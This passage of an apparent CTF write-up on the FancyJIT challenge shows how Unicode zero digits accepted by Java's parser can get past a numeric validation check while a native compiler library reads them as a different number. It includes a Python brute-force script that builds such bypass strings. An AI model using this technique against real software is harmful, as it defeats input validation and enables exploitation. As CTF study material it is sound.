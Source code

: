 ```
Some Unicode character ranges that contain digits:

'\u0030' through '\u0039', ISO-LATIN-1 digits ('0' through '9')
'\u0660' through '\u0669', Arabic-Indic digits
'\u06F0' through '\u06F9', Extended Arabic-Indic digits
'\u0966' through '\u096F', Devanagari digits
'\uFF10' through '\uFF19', Fullwidth digits
Many other character ranges contain digits as well.
```

Writing a quick snippet in java to see what counts as a **0** gives us a bunch of results:
```java
 for (int i = 0; i < 0x10000; i++) {
    if (Character.digit(i, 10) == 0) {
        System.out.println(Integer.toHexString(i));
    }
}

// 0x30, 0x660, 0x6f0, 0x7c0, 0x966, 0x9e6, 0xa66, 0xae6, 0xb66, 0xbe6, 0xc66, 0xce6, 0xd66, 0xe50, 0xed0, 0xf20, 0x1040, 0x1090, 0x17e0, 0x1810, 0x1946, 0x19d0, 0x1a80, 0x1a90, 0x1b50, 0x1bb0, 0x1c40, 0x1c50, 0xa620, 0xa8d0, 0xa900, 0xa9d0, 0xaa50, 0xabf0, 0xff10
```

Using these we should be able to craft a string that is correctly parsed by *parseInt* and that also passes the validaation, but then produces a different number in the compiler!

As this was a CTF, I just wrote a quick and dirty function to bruteforce values that the compiler would see as our target number but that **FancyJIT** would see as less than 100000. This was done by generating random combination of valid utf8 zeros until a number that was within 100000 of our target, then appending the last 5 digits to make the correct number.

```python
from ctypes import *
import random

compiler = CDLL("linux-x86-64/libcompiler.so")

valid_zeroes = [0x30, 0x660, 0x6f0, 0x7c0, 0x966, 0x9e6, 0xa66, 0xae6, 0xb66, 0xbe6, 0xc66, 0xce6, 0xd66, 0xe50, 0xed0, 0xf20, 0x1040, 0x1090,
       0x17e0, 0x1810, 0x1946, 0x19d0, 0x1a80, 0x1a90, 0x1b50, 0x1bb0, 0x1c40, 0x1c50, 0xa620, 0xa8d0, 0xa900, 0xa9d0, 0xaa50, 0xabf0, 0xff10]
encoded_zeros = map(lambda c: unichr(c).encode("utf8"), valid_zeroes)


def get_num(goal):
    print goal
    base = goal / 100000 * 100000

    while True:
        sample = []
        for _ in range(random.randrange(1, 10)):
            sample.append(random.choice(encoded_zeros))

        payload = "{}00000)".format("".join(sample))
        res = compiler.intbracket(payload)
        if res >= base and res <= goal:
            difference = goal % 100000 - (res - base)
            payload = "{}{:05d}".format("".join(sample), difference)
            
            assert compiler.intbracket(payload + ")") == goal
            return payload
```
